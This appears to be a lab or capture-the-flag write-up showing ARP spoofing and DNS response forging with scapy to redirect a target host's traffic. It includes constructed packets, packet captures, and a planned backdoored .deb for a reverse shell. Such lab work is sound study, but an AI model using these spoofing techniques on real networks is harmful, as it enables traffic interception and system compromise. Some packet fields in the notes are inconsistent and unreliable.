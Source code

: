 Host 10.6.6.35 is attacker controlled. Get command line access.
Pingable from main host
	* Have network connectivity


	Local network is 10.6.0.3/16 so we have direct L2 connectivity to the attacker server


	# Sample provided scripts
	arp_res.py
		* Comments in the script indicate that we need to construct a ARP response to steer traffic to our host
	dns_res.py
		* Comments in the script indicate that we need to construct a DNS response to steer traffic either to our host or another host.

	
	# Sample packet captures - Can use these to extract the full ARP fields if needed.

	ARP Request looking for IP address 10.10.10.1
    		1   0.000000 cc:01:10:dc:00:00 → ff:ff:ff:ff:ff:ff ARP 60 Who has 10.10.10.1? Tell 10.10.10.2
    ARP Reply responding with with MAC for IP 10.10.10.1
		    2   0.031000 cc:00:10:dc:00:00 → cc:01:10:dc:00:00 ARP 60 10.10.10.1 is at cc:00:10:dc:00:00

	DNS Request - tshark
		    1   0.000000 192.168.170.8 → 192.168.170.20 DNS 74 Standard query 0x75c0 A www.netbsd.org
	DNS Response - tshark
		    2   0.048911 192.168.170.20 → 192.168.170.8 DNS 90 Standard query response 0x75c0 A www.netbsd.org A 204.152.190.12


	They say to capture without name resolution otherwise it will hang
	tshark -nnr arp.pcap
	tcpdump -nnr arp.pcap

	-r is for read only need the -nn for host and port numberes

	Capturing on the interface (eth0) on the host we see that the attacker is arping for a MAC for 10.6.6.53.

	```
	guest@4e6ce9945b36:~$ tcpdump -nn -i eth0 arp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
01:19:44.513407 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:45.545516 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:46.589695 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:47.629401 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:48.673522 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```

Doing some basic thinking, the `.53` here means it is a DNS server and its arping to do a name resolution to do an http GET which will serve out some reverse shell payload we want, or something like that.

Step 1 - Getting the arp response correct
ARP format details here: http://www.tcpipguide.com/free/t_ARPMessageFormat.htm

Incoming Request:
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = who-has
  hwsrc     = 4c:24:57:ab:ed:84
  psrc      = 10.6.6.35
  hwdst     = 00:00:00:00:00:00
  pdst      = 10.6.6.53

 Response Should be:
 ###[ ARP ]### 
  hwtype    = 0x2	---
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at (0x02) --
  hwsrc     = 02:42:0a:06:00:03 --
  psrc      = 10.6.6.53 --
  hwdst     = 4c:24:57:ab:ed:84 --
  pdst      = 10.6.6.35 --

Sample constructed with the following code
```python
if __name__ == "__main__":
    a = ARP(pdst="10.6.6.35")

    a.op = 2 # arp reply
    a.plen = 4
    a.hwlen = 6
    a.ptype = 2048
    a.hwtype = 1
    a.hwsrc = "02:42:0a:06:00:03"
    a.psrc = "10.6.0.3"
    a.pdst = "10.6.6.35"
    a.hwdst = "4c:24:57:ab:ed:84"
    a.show()
```
```bash
###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at
  hwsrc     = 02:42:0a:06:00:03
  psrc      = 10.6.0.3
  hwdst     = 4c:24:57:ab:ed:84
  pdst      = 10.6.6.35
```


Success, DNS request is:
02:43:13.857797 IP 10.6.6.35.57847 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
        0x0000:  4500 003c 0001 0000 4011 5a4d 0a06 0623  E..<....@.ZM...#
        0x0010:  0a06 0635 e1f7 0035 0028 5866 0000 0100  ...5...5.(Xf....
        0x0020:  0001 0000 0000 0000 0366 7470 066f 7375  .........ftp.osu
        0x0030:  6f73 6c03 6f72 6700 0001 0001            osl.org.....
02:43:13.866331 IP 10.6.6.53.53 > 10.6.6.35.52687: 0- 1/0/0 A 10.6.0.3 (62)
        0x0000:  4500 005a 0001 0000 4011 5a2f 0a06 0635  E..Z....@.Z/...5
        0x0010:  0a06 0623 0035 cdcf 0046 3e9d 0000 8100  ...#.5...F>.....
        0x0020:  0001 0001 0000 0000 0366 7470 066f 7375  .........ftp.osu
        0x0030:  6f73 6c03 6f72 6700 0001 0001 0366 7470  osl.org......ftp
        0x0040:  066f 7375 6f73 6c03 6f72 6700 0001 0001  .osuosl.org.....
        0x0050:  0000 0000 0004 0a06 0003                 ..........

From the capture, it looks like the victim is trying to resolve an FTP server. So, we'll serve them a DNS record pointing back to the attacker (us) and wait for the FTP connection next.

UDP packet received
###[ Ethernet ]### 
  dst       = 02:42:0a:06:00:04
  src       = 4c:24:57:ab:ed:84
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 60
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x5a4d
     src       = 10.6.6.35
     dst       = 10.6.6.53
     \options   \
###[ UDP ]### 
        sport     = 34972
        dport     = domain
        len       = 40
        chksum    = 0xb1c1
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None


DNS Sample Response
###[ DNS ]###
  id        = 0				//set from packet
  qr        = 1				//?
  opcode    = QUERY  		//?
  aa        = 0				//?
  tc        = 0				//?
  rd        = 1				//?
  ra        = 1				//set to 1
  z         = 0				//?
  ad        = 0				//?
  cd        = 0				//?
  rcode     = ok			//?
  qdcount   = 1				// set to 1 - query record from the request
  ancount   = 5				// set to 1
  nscount   = 0				//?
  arcount   = 0				//?
  \qd        \
   |###[ DNS Question Record ]###
   |  qname     = 'www.thepacketgeek.com.'
   |  qtype     = A
   |  qclass    = IN
  \an        \
   |###[ DNS Resource Record ]###
   |  rrname    = 'www.thepacketgeek.com.'
   |  type      = CNAME
   |  rclass    = IN
   |  ttl       = 299
   |  rdlen     = None
   |  rdata     = 'thepacketgeek.github.io.'
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.108.153
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.109.153
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.110.153
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.111.153
  ns        = None
  ar        = None



.###[ Ethernet ]### 
  dst       = 02:42:0a:06:00:02
  src       = 4c:24:57:ab:ed:84
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 60
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x5a4d
     src       = 10.6.6.35
     dst       = 10.6.6.53
     \options   \
###[ UDP ]### 
        sport     = 58168
        dport     = domain
        len       = 40
        chksum    = 0x5725
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None

.###[ Ethernet ]### 
  dst       = 4c:24:57:ab:ed:84
  src       = 02:42:0a:06:00:02
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = None
     tos       = 0x0
     len       = None
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = None
     src       = 10.6.6.53
     dst       = 10.6.6.35
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = 33298
        len       = None
        chksum    = None
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 1
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           \an        \
            |###[ DNS Resource Record ]### 
            |  rrname    = 'ftp.osuosl.org.'
            |  type      = CNAME
            |  rclass    = IN
            |  ttl       = 0
            |  rdlen     = None
            |  rdata     = '10.6.0.2'
           ns        = None
           ar        = None



So it worked - Issue i had was I was providing a CNAME which actually caused it to crash background.py

After running the test, it showed that the next step was to go to port 80 and likely request a website. Can figure out the git request using `server.http`.

Now, we need, it appears to backdoor a deb file to get a reverse shell on the machine, or open a bind shell

The request is being executed via curl (user agent).

.
